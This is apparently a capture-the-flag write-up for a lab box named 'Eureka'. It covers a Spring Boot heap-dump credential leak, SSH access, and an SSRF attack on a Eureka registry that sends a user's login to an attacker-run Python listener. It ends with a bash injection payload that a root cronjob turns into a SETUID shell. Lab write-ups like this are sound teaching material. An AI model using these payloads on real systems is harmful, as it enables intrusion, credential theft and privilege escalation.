

Eureka
Eureka was a cool Linux box that started with a Spring Boot web application running on port 80, featuring an online furniture shop with user registration and blog functionality. Initial reconnaissance revealed Spring Boot actuator endpoints exposed at /actuator, including a heap dump file that I downloaded for analysis.
Using Eclipse Memory Analyzer on the heap dump, I discovered MySQL credentials (oscar190:0sc@r190_S0l!dP@sswd) through OQL queries targeting password-related strings. These credentials provided both SSH access to the box and database connectivity, revealing additional user hashes including one for miranda-wise.
Local port enumeration uncovered several internal services running on ports 8080-8082 and 8761. Port forwarding revealed a Netflix Eureka service registry on 8761, which I accessed using credentials found in /var/www (EurekaSrvr:0scarPWDisTheB3st). I exploited the Eureka service through SSRF by registering a malicious service instance pointing to my controlled server, which intercepted authentication attempts and revealed Miranda's credentials (miranda-wise:IL!veT0Be&BeT0L0ve).
SSH access as Miranda provided the user flag and membership in the developers group. Analysis of /opt/log_analyse.sh revealed a bash injection vulnerability in the HTTP status code processing function, where the -eq operator could be manipulated with command substitution. Using pspy to monitor processes, I discovered a root cronjob executing this script against log files in directories writable by the developers group.
Privilege escalation was achieved by replacing the application log file with a malicious entry containing my payload. When the root cronjob processed this log, it created a SETUID bash binary, which I executed with the -p flag to gain root access and complete the challenge.
User flag
Nmap scan reveals only two ports. I'll add the website to my host file in order to access it.
Enumerating the website
Its an online furniture shop. I can log in/register, browse/buy products, and read blogposts.
I can post comments under each post, so I'll check for XSS possibilities.
The HTML tags were displayed as text, which means that XSS is not possible here.
After messing around with the post ID in the search bar, I stumbled upon something very interesting.
The whitelabel error page is the default error response in Spring Boot. An open-source java web app framework.
From there, a simple search has led me to Spring Actuators, which could potentially expose some valuable data.

There are many endpoints here, but much of the "sensitive" data has been replaced with "**".
This might be a security feature, and I can't really do much about it right now. I'll keep looking around.
The features endpoint returns the versions of three clients. In itself they might not be that useful, but they may point towards an approximate version of SpringBoot running on the box.
There is also the heapdump endpoint, which just lets me download a heapdump file onto my machine.
I'll use a memory analyzer to dig through it, as these heapfiles often contain sensitive data like passwords.
Analyzing the heapdump file
I will use the Eclipse memory analyzer tool for this task.
https://www.eclipse.org/downloads/download.php?file=/mat/1.16.1/rcp/MemoryAnalyzer-1.16.1.20250109-linux.gtk.x86_64.zip
After unzipping the file, I'll run it from the mat folder.
Inside the program, I can add the heap file by going to file -> Open Heap Dump -> Navigating to the heap file(Select "All Files" in the botton right).
I can perform many things now that the file is loaded. Manual searching is one of them, but there is also the option to use OQL(Object Query Language) queries to search for data more effectively.
I'll use OQL to make targeted queries in search of keywords.
There are many things I could check with a query. I'll start by looking through all of the linked hash maps for the string password
select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))
oscar190:0sc@r190_S0l!dP@sswd
Found credentials for mysql! Looking at the whole value, I won't be able to connect to the database from my machine, because it is being run locally on the box.
Logging into the box
I logged in as oscar190 on the Furni website, but nothing new came up. No administrative panel, no secret files whatsoever.
I also tried to SSH into the box with the same credentials.
And it worked! I'll see what Oscar can do, remembering that mysql is running on the box.
mysql -u oscar190 -p
While the user does not have any noteworthy permissions, I did manage to connect to the database.
There's a bunch of users with hashes. The user flag was not in Oscar's directory, so I'll check what other users are present.
Miranda-wise is here as well. Her hash is present in the database, so I can take it and attempt cracking.
However, there are two very discouraging things about the hash.
- It was hashed with Bcrypt (Noticeable by the "$2a" bit)
- It has a very big cost factor, which means that trying to crack it will take a very long time.
Taking all that into account, I decided I'd try cracking it only as a last resort, if I did not find a different way forward.
Discovering a local Eureka service
Continuing my enumeration, I'll check for any locally-running services/listening ports.
There are a few interesting ports. 3306 is mysql, but 8080, 8081, 8082, and 8761 are unknown to me.
I will restart my SSH connection, this time forwarding all 4 ports to my machine.
I could use SOCKS as well, but since i don't need to reach any other machines(no tunneling), using SSH will be simpler.
SSH oscar190@furni.htb -L 8080:127.0.0.1:8080 -L 8081:127.0.0.1:8081 -L 8082:127.0.0.1:8082 -L 8761:127.0.0.1:8761
Checking out the forwarded ports, I can tell that:
- 8080 and 8082 both point to a local furni website, without CSS.
- 8081 returns a whitelabel error.
8761 prompts for credentials, and the previous ones do not work. I need to find a new set of creds to progress.
Scanning /var/www for credentials
I moved into the /var/www/ directory. I'll use grep to search for any hardcoded credentials there.
My reasoning behind this is that since the local ports are running websites/services, there may be some encoded credentials in the related directories.
grep -R 'password'
Found a new password. The old one was found as well, a bit further up.
grep -R 'name'
And a name as well!
EurekaSrvr:0scarPWDisTheB3st
A whole new set of credentials. I'll try those against the local service right away.

SSRF on the Eureka instance
Eureka Server acts as a service registry where all the services in a microservice system register themselves.
I can see 3 of those, which I've already checked out earlier.
After a bit of research on Spring Eureka, I found a promising way to exploit it.
https://medium.com/@mfocuz/hacking-netflix-eureka-8e5957b2f539
It may be possible to perform SSRF by modifying an existing service with an additional link to a malicious server.
In theory, the requests should come both to the original server and my receiver
To start off, I'll take a good look at the payload from the post. Then I'll modify it accordingly for my attack.
curl -X POST "http://127.0.0.1:8761/eureka/apps/USER-MANAGEMENT-SERVICE" \
-u "EurekaSrvr:0scarPWDisTheB3st" \
-H "Content-Type: application/json" \
-H "User-Agent: Java/11.0.10" \
-d '{
"instance": {
"instanceId": "attacker-instance:USER-MANAGEMENT-SERVICE:9002",
"hostName": "10.10.16.15",
"app": "USER-MANAGEMENT-SERVICE",
"ipAddr": "10.10.16.15",
"status": "UP",
"port": {"$": 9002, "@enabled": "true"},
"healthCheckUrl": "http://10.10.16.15:9002/health",
"statusPageUrl": "http://10.10.16.15:9002/info",
"homePageUrl": "http://10.10.16.15:9002/",
"vipAddress": "USER-MANAGEMENT-SERVICE",
"secureVipAddress": "USER-MANAGEMENT-SERVICE",
"dataCenterInfo": {
"@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
"name": "MyOwn"
},
"metadata": {"management.port": "9002"}
}
}'
After sending the curl request, I can see that my malicious update has been successfully added.
After clicking the new link, I got a response on my python server.
And soon after that, 3 more requests from the box followed.
Someone is trying to log in! I have to modify my python server to accommodate for the POST method.
# serv.py file
import http.server
import socketserver
import json
PORT = 9002
class MyHandler(http.server.SimpleHTTPRequestHandler):
def do_GET(self):
print(f"Received GET request: {self.path}")
print(f"Headers: {self.headers}")
self.send_response(200)
self.send_header('Content-type', 'application/json')
self.end_headers()
self.wfile.write(b'{"status":"UP"}')
def do_POST(self):
content_length = int(self.headers['Content-Length']) if 'Content-Length' in self.headers else 0
post_data = self.rfile.read(content_length)
print(f"Received POST request to: {self.path}")
print(f"Headers: {self.headers}")
print(f"POST data: {post_data.decode('utf-8')}")
# For login endpoint, return a successful response with a fake token
if self.path == '/login':
self.send_response(200)
self.send_header('Content-type', 'application/json')
self.end_headers()
else:
self.send_response(200)
self.send_header('Content-type', 'application/json')
self.end_headers()
self.wfile.write(b'{"status":"success"}')
with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
print(f"Serving at port {PORT}")
httpd.serve_forever()
Miranda-Wise tried authenticating to my server. Her password has a few urlencoded characters, so I'll use cyberchef to decode the full password.
miranda-wise:IL!veT0Be&BeT0L0ve
I will SSH into the box as Miranda. Earlier, I saw that she was the other user present on the box, so the user flag should be located in her home directory.
Root flag
Miranda is a member of the developers group, but there's not much aside from that.
I'll search the available directories for anything interesting.
In the /opt directory, I found a few things.
I don't have access to scripts and heapdump, but I can read the log_analyse.sh script.
I'll run it first to see what will happen. It needs a .log file as an argument, so I'll give it a log from the web directory.
It outputs a nicely colored set of data. It also attempted to create a .txt file, but failed.
Most likely, Miranda does not have the permission to create files in /opt, hence why the script failed to do so since I ran it as Miranda.
Analyzing the bash script
After reviewing the script, I confirmed that what I said above was true.
Additionally, I noticed a potential vulnerability in how the script handles data.
Let's have a look at the vulnerable function:
analyze_http_statuses() {
# Process HTTP status codes
while IFS= read -r line; do
code=$(echo "$line" | grep -oP 'Status: \K.*')
found=0
# Check if code exists in STATUS_CODES array
for i in "${!STATUS_CODES[@]}"; do
existing_entry="${STATUS_CODES[$i]}"
existing_code=$(echo "$existing_entry" | cut -d':' -f1)
existing_count=$(echo "$existing_entry" | cut -d':' -f2)
if [[ "$existing_code" -eq "$code" ]]; then
new_count=$((existing_count + 1))
STATUS_CODES[$i]="${existing_code}:${new_count}"
break
fi
done
done < <(grep "HTTP.*Status: " "$LOG_FILE")
}
The first thing this function does is grabbing each line, and extracting 'Status:' from it.
It then removes everything from the status all the way to the end of the line(\K), ideally only leaving the status code.
The output of that operation is then saved as $code, and passed all the way down to the -eq operator. -eq expects a numerical value, which I'll keep in mind.
To make a valid payload, the line it is on must contain "Status:". Otherwise, it won't be picked up by grep.
In order to make bash treat my payload as numerical, I can pass it within an array. The script will fail, but not before executing whatever command is inside the array.
HTTPtestStatus: a[$(cp /bin/bash /tmp/test && chmod +s /tmp/test)]
I appended this payload to a brand new test.log file located in my home directory and ran the script.
It worked, but the result was a SETUID bash with Miranda's rights. I need to find a way to force root to do the same.
Looking at the cron jobs did not give me anything, as there weren't any visible. To confirm that for sure, I transferred and executed pspy on the box.
Discovering "hidden" root cronjobs with pspy
Root is running the script against the .log files in the user-management-service and cloud-service directories.
Miranda is in the developers group, which means that I can modify the log folder and somewhat its contents as well.
However, because Miranda does not have direct permission over the contents of /log, I can only remove the contents. That should still be enough, though.
Setting up for root command injection
I will first remove the application.log file entirely, then I'll make a new one by echoing my payload directly. That will create a new file if one does not exist already.
rm /var/www/web/user-management-service/log/application.log && echo 'HTTPtestStatus: a[$(cp /bin/bash /tmp/privesc && chmod +s /tmp/privesc)]' > /var/www/web/user-management-service/log/application.log
And after a moment, the privesc SETUID binary was created.
All that's left is to run it with -p to preserve rights.
Rooted!